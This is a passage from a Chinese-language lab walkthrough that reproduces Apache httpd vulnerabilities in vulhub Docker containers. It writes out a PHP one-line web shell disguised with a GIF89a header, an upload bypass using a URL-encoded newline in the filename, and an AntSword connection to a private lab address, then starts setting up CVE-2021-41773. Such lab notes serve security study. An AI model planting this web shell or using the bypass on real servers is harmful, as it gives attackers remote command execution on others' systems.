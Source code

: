 ![image-20240711190415339](https://image.201068.xyz/assets/image-20240711190415339.png)

##### 文件内容

```
GIF89a
<?php @eval($_POST['xxx']);?>
```

![image-20240711173622184](https://image.201068.xyz/assets/image-20240711173622184.png)

##### 访问文件目录

换行符的url编码：`%0a`

```
http://192.168.70.14:8080/xxx.php%0a
```

![image-20240711173525010](https://image.201068.xyz/assets/image-20240711173525010.png)

#### 3.蚁剑连接

```
http://192.168.70.14:8080/xxx.php%0a
xxx
```

![image-20240711173609681](https://image.201068.xyz/assets/image-20240711173609681.png)

##### 上线成功

![image-20240711173702516](https://image.201068.xyz/assets/image-20240711173702516.png)

### 3、CVE-2021-41773 漏洞复现

#### 针对版本

`Apache httpd Server 2.4.49` 版本

#### 启动

```
cd /root/vulhub/httpd/CVE-2021-41773
docker-compose up -d
```

##### 查看端口

```
docker ps -s
```

![image-20240712093143506](https://image.201068.xyz/assets/image-20240712093143506.png)

访问8080端口
